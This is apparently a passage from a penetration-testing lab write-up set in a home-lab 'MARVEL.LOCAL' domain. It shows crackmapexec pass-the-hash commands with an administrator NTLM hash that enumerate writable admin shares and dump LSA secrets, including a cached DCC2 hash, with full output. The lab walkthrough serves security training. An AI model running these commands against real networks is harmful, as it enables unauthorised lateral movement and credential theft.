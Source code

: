 

**Enumerate Shares**

Instead of the `--sam` switch we can also add the `--shares` switch, which will
show all local file shares (not only the ones that we are connected to!).

```
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 10.0.2.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --shares
SMB         10.0.2.15       445    HYDRA-DC         [*] Windows Server 2022 Build 20348 x64 (name:HYDRA-DC) (domain:HYDRA-DC) (signing:True) (SMBv1:False)
SMB         10.0.2.6        445    THEPUNISHER      [*] Windows 10 / Server 2019 Build 19041 x64 (name:THEPUNISHER) (domain:THEPUNISHER) (signing:False) (SMBv1:False)
SMB         10.0.2.4        445    SPIDERMAN        [*] Windows 10 / Server 2019 Build 19041 x64 (name:SPIDERMAN) (domain:SPIDERMAN) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    HYDRA-DC         [-] HYDRA-DC\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE 
SMB         10.0.2.6        445    THEPUNISHER      [+] THEPUNISHER\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
SMB         10.0.2.4        445    SPIDERMAN        [+] SPIDERMAN\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
SMB         10.0.2.6        445    THEPUNISHER      [+] Enumerated shares
SMB         10.0.2.6        445    THEPUNISHER      Share           Permissions     Remark
SMB         10.0.2.6        445    THEPUNISHER      -----           -----------     ------
SMB         10.0.2.6        445    THEPUNISHER      ADMIN$          READ,WRITE      Remote Admin
SMB         10.0.2.6        445    THEPUNISHER      C$              READ,WRITE      Default share
SMB         10.0.2.6        445    THEPUNISHER      IPC$            READ            Remote IPC
SMB         10.0.2.4        445    SPIDERMAN        [+] Enumerated shares
SMB         10.0.2.4        445    SPIDERMAN        Share           Permissions     Remark
SMB         10.0.2.4        445    SPIDERMAN        -----           -----------     ------
SMB         10.0.2.4        445    SPIDERMAN        ADMIN$          READ,WRITE      Remote Admin
SMB         10.0.2.4        445    SPIDERMAN        C$              READ,WRITE      Default share
SMB         10.0.2.4        445    SPIDERMAN        IPC$            READ            Remote IPC
```



**Enumerate Local Secrets**

Using the `--lsa` switch instead of the `--shares` or `--sam` switches will
dump the LSA, which may contain other secrets than the SAM dumps. Some of these
secrets are valuable, others are not. The capture DCC2 passwords are stored
from the last login, which may have been some time ago, so that the password
may have been changed in the meantime. 

```
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 10.0.2.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --lsa   
SMB         10.0.2.4        445    SPIDERMAN        [*] Windows 10 / Server 2019 Build 19041 x64 (name:SPIDERMAN) (domain:SPIDERMAN) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    HYDRA-DC         [*] Windows Server 2022 Build 20348 x64 (name:HYDRA-DC) (domain:HYDRA-DC) (signing:True) (SMBv1:False)
SMB         10.0.2.6        445    THEPUNISHER      [*] Windows 10 / Server 2019 Build 19041 x64 (name:THEPUNISHER) (domain:THEPUNISHER) (signing:False) (SMBv1:False)
SMB         10.0.2.4        445    SPIDERMAN        [+] SPIDERMAN\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
SMB         10.0.2.15       445    HYDRA-DC         [-] HYDRA-DC\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE 
SMB         10.0.2.6        445    THEPUNISHER      [+] THEPUNISHER\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
SMB         10.0.2.4        445    SPIDERMAN        [+] Dumping LSA secrets
SMB         10.0.2.6        445    THEPUNISHER      [+] Dumping LSA secrets
SMB         10.0.2.4        445    SPIDERMAN        MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c: (2025-08-03 18:38:30+00:00)
```